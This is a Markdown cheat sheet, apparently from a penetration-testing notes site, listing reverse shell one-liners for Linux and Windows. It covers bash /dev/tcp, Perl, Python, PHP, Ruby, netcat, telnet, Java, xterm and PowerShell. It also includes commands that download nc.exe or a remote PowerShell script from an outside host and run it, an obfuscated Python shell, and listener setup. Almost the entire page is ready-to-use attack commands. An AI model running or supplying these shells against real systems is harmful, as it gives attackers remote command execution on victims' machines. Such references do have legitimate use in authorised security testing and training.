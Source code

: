 ```yaml
---
layout: default
title: Reverse Shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - ruby
    - telnet
    - xterm
---
```

# Reverse Shells

## Linux
**Bash**

```shell
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/<ip>/<port>; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/<ip>/<port>
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/<ip>/<port>; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/<ip>/<port> 0>&1
```
- UDP, use `-u` flag with nc for catching locally

**Perl**

```shell
perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

**Python**

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```shell
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby**

```shell
ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

**Netcat**

```shell
nc -e /bin/sh <ip> <port>
```

```shell
/bin/sh | nc <ip> <port>
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```
- no `-e` flag

**Telnet**

```shell
rm -f /tmp/p; mknod /tmp/p p && telnet <ip> <port> 0/tmp/p
```

```shell
telnet <ip> <listen port> | /bin/bash | telnet <ip> <target port>
```
- listen locally on `<target port>`

**Java**

```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

**xterm**

```shell
xterm -display <ip>:1
```
- Port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +<ip>`

---

## Windows
**Netcat**

Upload nc (e.g. hosted via `python -m SimpleHTTPServer 80` within /usr/share/windows-binaries)
```powershell
powershell Invoke-WebRequest -Uri 'http://10.10.10.10/nc.exe' -OutFile 'nc.exe'
```
```powershell
powershell (New-Object Net.WebClient).DownloadString('http://10.10.10.10/nc.exe', 'nc.exe')
```
```powershell
powershell Start-BitsTransfer -Source 'http://10.10.10.10/nc.exe' -Destination 'nc.exe'
```
```powershell
curl -o nc.exe http://10.10.10.10/nc.exe
```

Execute
```powershell
nc -e powershell 10.10.10.10 9999
```
```powershell
nc -e cmd 10.10.10.10 9999
```

**Perl**

```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**Powershell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Download and execute remote PS file and execute (e.g. Nishang)
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev-shell.ps1')
```

**Python**

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('<ip>', <port>)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**Ruby**

```powershell
ruby -rsocket -e 'c=TCPSocket.new("<ip>","<port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
---

## Catching Shells
**Metasploit**

```shell
use exploit/multi/handler
```

**Netcat**

```shell
nc -lvnp <port>
```
- can use `-vv`/`-vvv` to debug with extra verbosity

## Useful links
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
